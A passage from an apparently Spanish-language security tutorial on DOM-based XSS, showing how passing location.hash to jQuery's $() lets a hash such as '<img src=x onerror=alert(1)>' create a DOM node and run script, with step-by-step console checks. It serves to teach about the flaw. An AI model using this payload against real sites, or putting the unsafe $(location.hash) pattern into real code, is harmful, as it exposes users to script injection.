 
# 5. El problema de confiar en `location.hash`

Ahora considero el caso en que la página usa:

```javascript
$(location.hash)
```

¿Y si el atacante manipula el `hash` para poner:

```
#<img src=x onerror=alert(1)>
```

¿Qué pasaría?

- Cuando `$()` recibe `location.hash`, ve que comienza con `<`.
- Interpreta el contenido como HTML.
- **Crea un nodo DOM** malicioso.
- Se ejecuta el `onerror`, disparando **JavaScript arbitrario**.

🔥 **Punto crítico de seguridad**:
- `location.hash` **es controlado completamente por el usuario**.
- Si no se valida antes de pasarlo a `$()`, se abre la puerta a un **DOM-Based XSS**.

---

# 6. Simulando la explotación paso a paso

### 6.1 Verificando el valor de `location.hash`

```javascript
location.hash
```

- Devuelve:

```
#<img src=x onerror=alert(1)>
```

### 6.2 Pasándolo directamente a jQuery

```javascript
$(location.hash)
```

- jQuery interpreta y **crea**:

```html
<img src="x" onerror="alert(1)">
```

### 6.3 Accediendo al nodo DOM real

```javascript
$(location.hash)[0]
```
